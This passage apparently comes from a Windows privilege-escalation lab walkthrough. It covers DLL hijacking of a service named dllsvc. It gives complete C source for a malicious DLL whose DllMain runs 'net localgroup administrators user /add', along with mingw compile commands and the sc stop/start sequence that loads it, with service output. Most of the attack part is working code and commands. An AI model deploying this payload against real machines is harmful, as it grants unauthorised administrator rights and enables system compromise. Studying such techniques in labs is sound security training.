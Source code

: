 Now, start dllsvc and monitor procmon:

!["procmon-results.png"](files/procmon-results.png)

**Exploitation**

Now, create the following program (`windows_dll.c`):

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

Compile it:

~~~
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
~~~

And transfer it to Windows, under `C:\temp`.

Execute it by restarting the dllsvc service:

~~~
C:\Users\user>sc stop dllsvc & sc start dllsvc

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
~~~